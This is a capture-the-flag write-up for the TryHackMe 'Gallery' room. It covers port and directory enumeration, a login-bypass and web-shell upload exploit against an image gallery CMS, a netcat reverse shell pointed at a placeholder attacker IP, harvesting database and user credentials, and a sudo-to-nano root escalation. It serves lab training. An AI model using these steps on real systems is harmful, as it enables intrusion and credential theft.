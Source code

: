 ```yaml
---
title: "Gallery"
date: 2025-01-30
image: /assets/img/tryhackme/Gallery/Gallery_image.jpg
description: Writeup of the TryHackMe-CTF Gallery
categories: [Tryhackme, Easy]
tags: [linux, privesc, web, enumeration, rce]
---
```


## Challenge Description
<center>
<table>
  <tr>
    <td>Plattform</td>
    <td>TryHackMe</td>
  </tr>
  <tr>
    <td>Name</td>
    <td>Gallery</td>
  </tr>
  <tr>
    <td>Description</td>
    <td>Try to exploit our image gallery system</td>
  </tr>
  <tr>
    <td>Difficulty</td>
    <td>Easy</td>
  </tr>
  <tr>
    <td>OS</td>
    <td>Linux</td>
  </tr>
  <tr>
    <td>Link</td>
    <td><a href="https://tryhackme.com/r/room/gallery666">https://tryhackme.com/r/room/gallery666</a></td>
  </tr>
</table>
</center>

This writeup is a possible solution of the CTF-challenge Gallery.  

## Enumeration
I started the enumeration using `nmap`:
```bash
$ nmap -p- 10.10.180.20                                
  Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-01-30 06:17 EST
  Nmap scan report for 10.10.180.20
  Host is up (0.039s latency).
  Not shown: 65533 closed tcp ports (conn-refused)
  PORT     STATE SERVICE
  80/tcp   open  http
  8080/tcp open  http-proxy

  Nmap done: 1 IP address (1 host up) scanned in 19.85 seconds
```
and enumerated the found services in more depth using nmap's `-A` flag:
```bash
$ nmap -A -p 80,8080 10.10.180.20
  Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-01-30 06:18 EST
  Nmap scan report for 10.10.180.20
  Host is up (0.045s latency).
  
  PORT     STATE SERVICE VERSION
  80/tcp   open  http    Apache httpd 2.4.29 ((Ubuntu))
  |_http-server-header: Apache/2.4.29 (Ubuntu)
  |_http-title: Apache2 Ubuntu Default Page: It works
  8080/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
  | http-open-proxy: Potentially OPEN proxy.
  |_Methods supported:CONNECTION
  | http-cookie-flags: 
  |   /: 
  |     PHPSESSID: 
  |_      httponly flag not set
  |_http-title: Simple Image Gallery System
  |_http-server-header: Apache/2.4.29 (Ubuntu)
  
  Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
  Nmap done: 1 IP address (1 host up) scanned in 8.35 seconds
```
From here I proceeded the analysis port by port.

## Port 80 Analysis
I found an Apache default page, but found nothing in the source code, so I continued with the directory enumeration:
```bash
$ gobuster dir --url http://10.10.180.20/ --wordlist /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt 
  ===============================================================
  Gobuster v3.6
  by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
  ===============================================================
  [+] Url:                     http://10.10.180.20/
  [+] Method:                  GET
  [+] Threads:                 10
  [+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt
  [+] Negative Status codes:   404
  [+] User Agent:              gobuster/3.6
  [+] Timeout:                 10s
  ===============================================================
  Starting gobuster in directory enumeration mode
  ===============================================================
  /gallery              (Status: 301) [Size: 314] [--> http://10.10.180.20/gallery/]

```

The directory `/gallery` showed a Login screen. With the name of the CMS I found an <a href="https://www.exploit-db.com/exploits/50214">exploit-db</a> entry which can get me remote code execution. The exploit code shows how to bypass the login, but after logging in this didn't reveal anything.

![Dashboard](/assets/img/tryhackme/Gallery/thm_gallery_1.jpg)

```bash
$ python3 exploit.py
TARGET = http://10.10.180.20/gallery              
Login Bypass
shell name TagoenmcpbdzviklgpmLetta

protecting user

User ID : 1
Firstname : Adminstrator
Lastname : Admin
Username : admin

shell uploading
- OK -
Shell URL : http://10.10.180.20/gallery/uploads/1738236540_TagoenmcpbdzviklgpmLetta.php?cmd=whoami

```
![Remote Command Execution](/assets/img/tryhackme/Gallery/thm_gallery_2.jpg)

I was able to get a reverse shell shell:
```html
...?cmd=busybox nc [atacker ip] 9001 -e sh
```
After performing some shell stabilization I started searching for database credentials and found a file called `initialize.php`:
```php
<?php
  $dev_data = array('id'=>'-1','firstname'=>'Developer','lastname'=>'','username'=>'dev_oretnom','password'=>'[removed]','last_login'=>'','date_updated'=>'','date_added'=>'');

  if(!defined('base_url')) define('base_url',"http://" . $_SERVER['SERVER_ADDR'] . "/gallery/");
  if(!defined('base_app')) define('base_app', str_replace('\\','/',__DIR__).'/' );
  if(!defined('dev_data')) define('dev_data',$dev_data);
  if(!defined('DB_SERVER')) define('DB_SERVER',"localhost");
  if(!defined('DB_USERNAME')) define('DB_USERNAME',"gallery_user");
  if(!defined('DB_PASSWORD')) define('DB_PASSWORD',"[removed]");
  if(!defined('DB_NAME')) define('DB_NAME',"gallery_db");
?>
```

With the credentials I was able to access the MySql database:
```bash
www-data@gallery:/var/www/html/gallery$ mysql -u gallery_user -p

MariaDB [(none)]> show databases;
  +--------------------+
  | Database           |
  +--------------------+
  | gallery_db         |
  | information_schema |
  +--------------------+
  2 rows in set (0.00 sec)

MariaDB [(none)]> use gallery_db;
	Database changed

MariaDB [gallery_db]> show tables;
  +----------------------+
  | Tables_in_gallery_db |
  +----------------------+
  | album_list           |
  | images               |
  | system_info          |
  | users                |
  +----------------------+
  4 rows in set (0.00 sec)

MariaDB [gallery_db]> select * from users; 
  +----+--------------+----------+----------+----------------------------------+-------------------------------------------------+------------+------+---------------------+---------------------+
  | id | firstname    | lastname | username | password                         | avatar                                          | last_login | type | date_added          | date_updated        |
  +----+--------------+----------+----------+----------------------------------+-------------------------------------------------+------------+------+---------------------+---------------------+
  |  1 | Adminstrator | Admin    | admin    | [removed]                        | uploads/1738236540_TagoenmcpbdzviklgpmLetta.php | NULL       |    1 | 2021-01-20 14:02:37 | 2025-01-30 11:29:27 |
  +----+--------------+----------+----------+----------------------------------+-------------------------------------------------+------------+------+---------------------+---------------------+
1 row in set (0.00 sec)
```

## Privilege Escalation mike

After searching around a bit I found a backup of the bash history at this path `/var/backups/mike_home_backup/.bash_history`. In the file I found the following:
```bash
$ cat .bash_history
  cat .bash_history
  cd ~
  ls
  ping 1.1.1.1
  cat /home/mike/user.txt
  cd /var/www/
  ls
  cd html
  ls -al
  cat index.html
  sudo -l[removed]
  clear
  sudo -l
  exit
```

This looks like mike's credentials, so I changed the user:
```bash
mike@gallery:~$ su mike
  su mike
  Password: [removed]

mike@gallery:~$ cat user.txt
	[*** removed ***]
```

## Privilege Escalation root
I started with `sudo -l` and got the following output:
```bash
mike@gallery:~$ sudo -l
  Matching Defaults entries for mike on gallery:
      env_reset, mail_badpass,
      secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

  User mike may run the following commands on gallery:
      (root) NOPASSWD: /bin/bash /opt/rootkit.sh
```
We can execute the `bash` script as root. Let's analyse the bash script:
```bash
  #!/bin/bash

  read -e -p "Would you like to versioncheck, update, list or read the report ? " ans;

  # Execute your choice
  case $ans in
      versioncheck)
          /usr/bin/rkhunter --versioncheck ;;
      update)
          /usr/bin/rkhunter --update;;
      list)
          /usr/bin/rkhunter --list;;
      read)
          /bin/nano /root/report.txt;;
      *)
          exit;;
  esac
```
A quick search in <a href="https://gtfobins.github.io/gtfobins/nano/">gftobins</a> gave me all I needed. We can insert `read` to get inside the nano command. From there we can get a shell.
```bash
mike@gallery:~$ sudo /bin/bash /opt/rootkit.sh
  Would you like to versioncheck, update, list or read the report ? read
```
In `nano` press CTRL + R then CTRL + X and insert the command:

![nano privesc](/assets/img/tryhackme/Gallery/thm_gallery_3.jpg)

```bash
# whoami
  root
# cat /root/root.txt
  [*** removed ***]
```

solved! :)
